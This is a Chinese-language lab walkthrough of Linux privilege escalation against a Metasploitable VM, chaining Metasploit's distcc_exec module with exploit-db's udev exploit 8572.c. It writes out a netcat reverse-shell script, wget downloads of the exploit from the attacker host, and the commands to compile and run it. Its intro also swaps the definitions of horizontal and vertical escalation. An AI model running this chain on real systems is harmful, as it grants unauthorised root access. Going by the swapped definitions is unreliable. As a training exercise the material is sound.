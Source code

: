 
#  提权介绍
**提权的种类：**

1. 横向提权：低权限角色能够获得高权限
2. 纵向提权：获得同级别角色的权限

**提权方式：**

1. 利用本地漏洞
2. 利用配置缺陷
3. 利用弱口令
4. 嗅探获得用户名和口令
5. 伪造网络数据包


# 利用漏洞提权
攻击机：kali：192.168.1.149<br />目标机：metasploitable：192.168.1.18


# 前提背景
udev能够像DHCP动态分配IP地址一样去动态分配major和minor给设备  udev中包含一个名为cve-2009-1185的漏洞，其具体表现为：以root身份运行的一个守护进程不会检测加载驱动的请求是否来自于LINUX内核。这样，来自于用户空间的用户进程就可以向Udev发消息，诱使它以root身份运行恶意代码。

使用distcc漏洞攻击后获得的权限仅仅为daemon账号的权限，需要提升到root账号权限，我们可以利用系统的udev漏洞，使用8572.c对系统进行提权
```
root@kali222:~# searchsploit  privilege |grep -i linux |grep -i kernel |grep 2.6  ------查看关于特权的攻击程序
```

![](https://img-blog.csdnimg.cn/2020060815044423.png#crop=0&crop=0&crop=1&crop=1&id=jNUsI&originHeight=167&originWidth=855&originalType=binary&ratio=1&rotation=0&showTitle=false&status=done&style=none&title=)

```
root@kali222:~# less /usr/share/exploitdb/exploits/linux/local/8572.c    -----查看8572.c 的源代码，代码中利用了udev
```
![](https://img-blog.csdnimg.cn/20200608150544102.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3FxXzQ0Mjc2NzQx,size_16,color_FFFFFF,t_70#crop=0&crop=0&crop=1&crop=1&id=seMin&originHeight=398&originWidth=795&originalType=binary&ratio=1&rotation=0&showTitle=false&status=done&style=none&title=)


# 查看版本
```
在metasploitable中：
root@metasploitable:/# udevadm --version
```
<br />![](https://img-blog.csdnimg.cn/20200608150758806.png#crop=0&crop=0&crop=1&crop=1&id=Kodut&originHeight=65&originWidth=428&originalType=binary&ratio=1&rotation=0&showTitle=false&status=done&style=none&title=)
可以看到版本比141小，因此存在漏洞


# 提权的攻击过程如下

## 步骤一：开启kali下的apache网站并准备该网站下的需要使用的文件
1、启动网站
```
root@kali222:~# service  apache2  start
```
<br />![](https://img-blog.csdnimg.cn/20200608151220113.png#crop=0&crop=0&crop=1&crop=1&id=zX7iT&originHeight=52&originWidth=448&originalType=binary&ratio=1&rotation=0&showTitle=false&status=done&style=none&title=)

2、准备两个攻击文件<br />(1)将下载的8572.c放入/var/www/html或者直接执行下列命令进行复制
```
root@kali222:~# cd  /usr/share/exploitdb/exploits/linux/local/
root@kali222:/usr/share/exploitdb/exploits/linux/local# cp 8572.c /var/www/html
root@kali222:/usr/share/exploitdb/exploits/linux/local# cd  /var/www/html
root@kali222:/var/www/html# ls
```
<br />![](https://img-blog.csdnimg.cn/20200608151455616.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3FxXzQ0Mjc2NzQx,size_16,color_FFFFFF,t_70#crop=0&crop=0&crop=1&crop=1&id=s1QGG&originHeight=211&originWidth=787&originalType=binary&ratio=1&rotation=0&showTitle=false&status=done&style=none&title=)

(2)在/var/www/html目录下生成如下文件run
```
root@kali222:/var/www/html# leafpad run
root@kali222:/var/www/html# cat run
#!bin/bash
/bin/netcat -e /bin/bash 192.168.1.149 31337      ---“-e ”参数后面跟一可执行程序的名称，当一个连接（入或出）被建立时，这个程序被运行
```
<br />![](https://img-blog.csdnimg.cn/20200608151603666.png#crop=0&crop=0&crop=1&crop=1&id=YQP1P&originHeight=85&originWidth=708&originalType=binary&ratio=1&rotation=0&showTitle=false&status=done&style=none&title=)


## 步骤二、再开一个kali终端并启动31337端口的侦听
```
root@kali222:~# nc -vv -l -p 31337
```
<br />![](https://img-blog.csdnimg.cn/20200608151629731.png#crop=0&crop=0&crop=1&crop=1&id=l6mj1&originHeight=99&originWidth=363&originalType=binary&ratio=1&rotation=0&showTitle=false&status=done&style=none&title=)


## 步骤三、再开启另外一个终端运行msfcosole,使用distcc_exec模块获取到daemon账号的权限
```
msf5 > use exploit/unix/misc/distcc_exec
msf5 exploit(unix/misc/distcc_exec) > set rhosts  192.168.1.18
msf5 exploit(unix/misc/distcc_exec) > exploit
```
<br />![](https://img-blog.csdnimg.cn/20200608151811729.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3FxXzQ0Mjc2NzQx,size_16,color_FFFFFF,t_70#crop=0&crop=0&crop=1&crop=1&id=XaIJj&originHeight=371&originWidth=732&originalType=binary&ratio=1&rotation=0&showTitle=false&status=done&style=none&title=)

```
输入python -c "import pty;pty.spawn('/bin/bash')"
daemon@metasploitable:/tmp$ ls              ------------------daemon权限，后面需要对它提权
```
<br />![](https://img-blog.csdnimg.cn/20200608151849330.png#crop=0&crop=0&crop=1&crop=1&id=unc8I&originHeight=60&originWidth=621&originalType=binary&ratio=1&rotation=0&showTitle=false&status=done&style=none&title=)


## 步骤四：检测daemon的权限
```
daemon@metasploitable:/tmp$ mkdir yxj     -----本地可以创建目录
daemon@metasploitable:/tmp$ ls
```
<br />![](https://img-blog.csdnimg.cn/20200608151955387.png#crop=0&crop=0&crop=1&crop=1&id=zceSi&originHeight=117&originWidth=466&originalType=binary&ratio=1&rotation=0&showTitle=false&status=done&style=none&title=)

```
daemon@metasploitable:/tmp$ cd  /
daemon@metasploitable:/$ mkdir yyxxjj    -----切换到根目录后，没有权限创建目录
```
<br />![](https://img-blog.csdnimg.cn/20200608152031124.png#crop=0&crop=0&crop=1&crop=1&id=Lzm6o&originHeight=83&originWidth=572&originalType=binary&ratio=1&rotation=0&showTitle=false&status=done&style=none&title=)


## 步骤五、开始通过8572.c进行提权
从kali的apache服务器上下载文件
```
daemon@metasploitable:/tmp$ wget http://192.168.1.149/8572.c
```
<br />![](https://img-blog.csdnimg.cn/20200608152413961.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3FxXzQ0Mjc2NzQx,size_16,color_FFFFFF,t_70#crop=0&crop=0&crop=1&crop=1&id=tdvVa&originHeight=244&originWidth=671&originalType=binary&ratio=1&rotation=0&showTitle=false&status=done&style=none&title=)

从kali的apache服务器上下载文件
```
daemon@metasploitable:/tmp$ wget http://192.168.1.149/run 
```
<br />![](https://img-blog.csdnimg.cn/20200608152445285.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3FxXzQ0Mjc2NzQx,size_16,color_FFFFFF,t_70#crop=0&crop=0&crop=1&crop=1&id=qe1LV&originHeight=245&originWidth=623&originalType=binary&ratio=1&rotation=0&showTitle=false&status=done&style=none&title=)

使用gcc编译8572.c并生成可执行文件8572
```
daemon@metasploitable:/tmp$ gcc 8572.c -o 8572   
```
<br />![](https://img-blog.csdnimg.cn/20200608152540223.png#crop=0&crop=0&crop=1&crop=1&id=hdwXw&originHeight=86&originWidth=682&originalType=binary&ratio=1&rotation=0&showTitle=false&status=done&style=none&title=)

8572.c文件添加空行用以解决“warning: no newline at end of file”
```
daemon@metasploitable:/tmp$ echo -e "\n" >>8572.c
```
<br />![](https://img-blog.csdnimg.cn/20200608152604730.png#crop=0&crop=0&crop=1&crop=1&id=glblR&originHeight=57&originWidth=453&originalType=binary&ratio=1&rotation=0&showTitle=false&status=done&style=none&title=)

再次使用gcc编译8572.c并生成可执行文件8572，发现可以成功
```
daemon@metasploitable:/tmp$ gcc 8572.c -o 8572    
daemon@metasploitable:/tmp$ ls
```
<br />![](https://img-blog.csdnimg.cn/20200608152641242.png#crop=0&crop=0&crop=1&crop=1&id=NT90y&originHeight=113&originWidth=502&originalType=binary&ratio=1&rotation=0&showTitle=false&status=done&style=none&title=)

查看内存中的与内核相关的进程信息用以获取参数
```
daemon@metasploitable:/tmp$ cat /proc/net/netlink   
```
<br />![](https://img-blog.csdnimg.cn/2020060815271648.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3FxXzQ0Mjc2NzQx,size_16,color_FFFFFF,t_70#crop=0&crop=0&crop=1&crop=1&id=WndQr&originHeight=239&originWidth=619&originalType=binary&ratio=1&rotation=0&showTitle=false&status=done&style=none&title=)

第二种获取参数的方法，这里查看的udev的进程号需要减一，udev能够像DHCP动态分配IP地址一样去动态分配major和minor
```
daemon@metasploitable:/tmp$ ps -aux|grep udev   
```
<br />![](https://img-blog.csdnimg.cn/20200608152802278.png#crop=0&crop=0&crop=1&crop=1&id=kzj4W&originHeight=133&originWidth=738&originalType=binary&ratio=1&rotation=0&showTitle=false&status=done&style=none&title=)

执行8572程序进行提权，2749为需要的参数（2749为前面的PID）
```
daemon@metasploitable:/tmp$ ./8572 2749   
```
<br />![](https://img-blog.csdnimg.cn/20200608153015154.png#crop=0&crop=0&crop=1&crop=1&id=jeFH9&originHeight=63&originWidth=417&originalType=binary&ratio=1&rotation=0&showTitle=false&status=done&style=none&title=)


## 步骤六：观察步骤二的终端内的结果
执行完以上步骤后，可以看到
```
connect to [192.168.1.149] from (UNKNOWN) [192.168.1.18] 33337
```
<br />![](https://img-blog.csdnimg.cn/20200608153429618.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3FxXzQ0Mjc2NzQx,size_16,color_FFFFFF,t_70#crop=0&crop=0&crop=1&crop=1&id=JZ3C6&originHeight=310&originWidth=729&originalType=binary&ratio=1&rotation=0&showTitle=false&status=done&style=none&title=)




